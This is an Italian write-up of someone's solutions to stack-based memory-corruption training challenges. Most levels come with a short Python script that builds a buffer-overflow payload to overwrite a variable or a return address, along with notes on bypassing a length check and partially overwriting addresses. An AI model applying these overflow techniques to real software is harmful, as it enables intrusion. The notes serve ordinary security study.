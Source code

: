 # Qui inseriro le spiegazioni degli esercizi di memory error di pwn

## Spiegazione generale

+ Gli esercizi seguenti richiedono di rompere la memoria in 8 livelli di difficoltà, andando a richiedere sempre quanti byte inviare e poi cosa effettivamente inviare.  
I livelli complessivamente sono 16, suddivisi nella versione .0 e nella versione .1, che si differenziano per essere le versioni .1 senza alcuna spiegazione di cosa tu debba fare, sebbene poi siano uguali alla versione .0.  
I primi livelli sono molto semplici da risolvere, tanto da poterli risolvere scrivendo a mano, ma poi verranno richiesti input particolari per cui sarà necessario passare particolari byte e approntare un sistema già pronto di python.  
Nello specifico sarà necessario creare un file binario in cui scrirevere più componenti a seconda di ciò che richiede la challenge:

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)     #don't know why ma metterne sempre uno in più dl richiesto qua, è qualcosa legato alla scrittura di python
    ```

    Ciò che fa è aprire/creare un file .bin e scriverci dentro i byte passati. Quando scrivo "f.write(b'\x90'*68)" intendo scrivere 68 volte il byte 90 (\x serve per indicare il valore in byte).

## Esercizio 1

+ Il primo esercizio è molto semplice e richiede di andare a sovrascrivere il valore 00 della variabile win con qualunque valore. La challenge mette a disposizione un buffer di 61 byte e posiziona win 64 byte dopo l'inizio del buffer.  
Basta inserire un valore di offset maggiore o uguale della distanza tra l'inizio del buffer e la posizione della variabile win e poi inserire una sequenza di caratteri a caso. Anche se triggheriamo la guardia del canarino la challenge sarà risolta uguale.

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)
    ```

## Esercizio 1.1

+ Il procedimento è lo stesso dell'esercizio 1 normale, semplicemente non vengono date istruzioni

    ```py
    with open("input.bin", "wb") as f:
        f.write(b'68')
        f.write(b'\x90'*68)
    ```

## Esercizio 2.0

+ In questa challenge viene testato lo stack. Come la challenge 1.0 è richiesto di passare un numero di byte e poi i byte effettivi per modificare il valore della win variabile, senza preoccuparsi troppo dello smashing effettivo della memoria.

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'577')
    f.write(b'\x90'*578)
    ```

## Esercizio 2.1

+ Idem come sopra, ma sta volta senza minimi indizzi. Con lo stesso input di sopra funziona.

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'577')
    f.write(b'\x90'*578)
    ```

## Esercizio 3.0

+ Questo esercizio richiede di modificare il return address cosicchè possa essere attivata la funzione win() che stampa la flag. Per farlo è necessario sapere a che inidirizzo parte la challenge, quindi bisogna usare objdump per cercarlo, facendo ```sh objdump -d come_cazzo_si_chiama```.  
Una volta trovata la posizione bisogna capire dove si trova nello stack il return address. Questa challenge non posiziona particolari protezioni (tipo il canary boundary), quindi si può andare per tentativi

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'98')
    f.write(b'\x90'*89)
    f.write(b'\x49\x22\x40')
    ```

## Esercizio 3.1

+ Esercizio al buio. Il primo passo è trovare il return address corretto, quindi con objdump cerco il numero della prima istruzione della funzione win ```sh objdump -d come_cazzo_si_chiama```.  
Poi devo capire dove si trova il return address nello stack, e lo faccio cercando la segmentation fault, che tendenzialmente è un multiplo di 8. Quindi provo diverse quantità di input fino a trovare il primo valore che dà segmentation fault.  
Questo ci permette di capire che il return address sarà 8 byte dopo il primo segmentation fault. Ad esempio qui segmentation fault scatta a 16 byte dal fondo dello stack, e dunque  return address è a 8 byte dal fondo.

    ```s
    | 0x00007fff0a427b00 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
    | 0x00007fff0a427b08 (rsp+0x0078) | c0 7a 42 0a ff 7f 00 00 | 0x00007fff0a427ac0 |
    | 0x00007fff0a427b10 (rsp+0x0080) | 40 8b 42 0a ff 7f 00 00 | 0x00007fff0a428b40 |
    | 0x00007fff0a427b18 (rsp+0x0088) | 8a 29 40 00 00 00 00 00 | 0x000000000040298a |
    +---------------------------------+-------------------------+--------------------+
    ```

    qui ad esempio il return address è posizionato a 0x00007fff0a427b18 (quindi inizia con 8a) mentre il segmentation fault scatta quando viene sovrascritto all'inidirizzo 0x00007fff0a427b10 (quello che inizia con 40)

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'180')
    f.write(b'\x90'*97)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x24\x15\x40')
    #97 da segmentation, quindi 96+8+return
    ```

## Esercizio 4.0

+ Esercizio simile al 3.0, ma che richiede di rompere il controllo sulla lunghezza dell'input, che controllerà se è maggiore della grandezza del buffer generando errore, semplicemnte mettendo -1 o un valore minore di 0 come grandezza. Poi come sopra lavoro con obj per trovare l'inidirizzo con cui sovrascrivere

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'-1')
    f.write(b'\x90'*113)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x4e\x1d\x40')
    ```

## Esercizio 4.1

+ Esattamente un mix tra 4.0 e 3.1, devo mettere il primo valore a -1, lavorare con objdump per trovare l'indirizzo e con il segmentation fault per trovare il giusto offset

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'-1')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xc8\x1c\x40')
    ```

## Livello 5.0

+ Questo livello richiede di rompere ancora di più il controllo sulla lunghezza del buffer, facendogli fare una moltiplicazione tra numeri negativi, ma non sono riuscito ad andare avanti ricevendo sempre l'errore di bad address

## Livello 6.0

+ Al livello 6 il segmentation scatta con 7 byte rimasti, quindi non al primo della riga ma al secondo byte della riga

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*81)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xe0\x1e\x40')
    ```

## Livello 6.1

+ Livello al buio

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\xba\x14\x40')
    ```

## Livello 7.0

+ Questo livello è come il sesto, ma richiede di essere runnato più volte perchè la posizione cambia ad ogni iterazione, ma solo per il quarto byte (gli altri 3 rimangono uguali).  
Nell'esempio sotto *d04 sono i 3 byte che non cambiano mai, mentre il quarto, in questo caso 1, può cambiare in 16 valori diversi ovviamente

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x04\x1d')    #1d04
    ```

## Livello 7.1

+ Livello al buio, devo cercare il segmentation a caso e poi objdump per 3 bit su 4.

    ```py
    with open("input.bin", "wb") as f:
    f.write(b'100')
    f.write(b'\x56'*65)     #metterne sempre uno in più
    f.write(b'\x90'*8)
    f.write(b'\x04\x1d')    #1d04
    ```

## Livello 8
